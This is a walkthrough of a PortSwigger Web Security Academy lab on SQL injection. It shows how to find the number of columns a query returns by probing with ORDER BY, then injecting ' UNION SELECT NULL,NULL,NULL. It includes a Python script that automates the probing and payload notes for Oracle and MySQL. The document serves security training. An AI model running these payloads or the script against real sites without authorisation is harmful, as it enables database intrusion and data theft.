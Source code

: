 # UNION attack, determining the number of columns returned by the query

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-01.png)

Lab #3 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

### SQL Injection Union attacks

For a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each column must be compatible between the individual queries.

### Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

### Steps <a href="#steps" id="steps"></a>

First, we need to determine the number of columns returned by the query. Let’s intercept the HTTP request when we filter on `Gifts` category and attempt a union SQL injection.

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-03.png)

Checking with a single quote (`'`) reveals that the application is vulnerable.

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-04.png)

Order by 1, 2, and 3 doesn’t fail, but order by 4 fails, indicating that the query has only 3 columns.

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-05.png)

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-06.png)

Knowing that we have 3 columns, let’s replace the ORDER BY 3 with `' UNION SELECT NULL,NULL,NULL` in order to solve the lab.

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-07.png)

Now, let’s automate the attack using a Python script.

```python

import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
  try:  
    url = sys.argv[1].strip()  
  except IndexError:  
    print("Usage: %s <url>, e.g www.example.com" % sys.argv[0])  
    sys.exit(-1)  

  path = "/filter?category=Gifts"  
  payload = "'+UNION+SELECT+NULL--" 

  for i in range(1, 10):  
    if i > 1:  
      payload = payload.replace('--', ',NULL--')    
    r = requests.get(url + path + payload, verify=False, proxies=proxies)  
    res = r.text  
    if "Internal Server Error" not in res:  
      print("The number of columns is " + str(i))  
      sys.exit(-1)  

  print("The SQLi attack was not successful, maybe the query returns more than 10 columns?")

```

Executing the above script returns an answer of 3 columns, consistent with what we observed in the manual test. Great!

{% code overflow="wrap" %}
```powershell

> python3 sqli-lab03.py "https://0a110012045284bc8477151900160025.web-security-academy.net"

> The number of columns is 3

```
{% endcode %}

And we can confirm from Burp HTTP History that the SQL error no longer appears when we have 3 columns.

![](https://jawad.ca/images/sqli-lab03/sqli-lab03-08.png)

### Notes <a href="#notes" id="notes"></a>

* On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`
* The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment
